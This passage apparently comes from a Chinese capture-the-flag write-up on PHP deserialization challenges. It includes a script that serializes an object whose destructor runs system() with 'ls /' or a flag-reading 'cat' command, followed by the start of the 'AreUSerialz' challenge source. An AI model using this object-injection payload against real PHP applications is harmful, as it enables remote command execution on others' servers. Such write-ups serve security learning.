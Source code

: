 ```php
      }else {
        die("Hacker...");
      }
    }
  ?>
```

可见并未ban掉unserialize函数
反序列化：

```php
<?php
class Test {
    var $p = "ls /";   //   ”cat /flag_3969089”
    var $func = "system";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$a = new Test();
echo serialize($a);
?>
```
再调用unserialize

![](https://img-blog.csdnimg.cn/20210316225628795.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## AreUSerialz
- 考点：反序列化中出现不可见字符的处理

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

```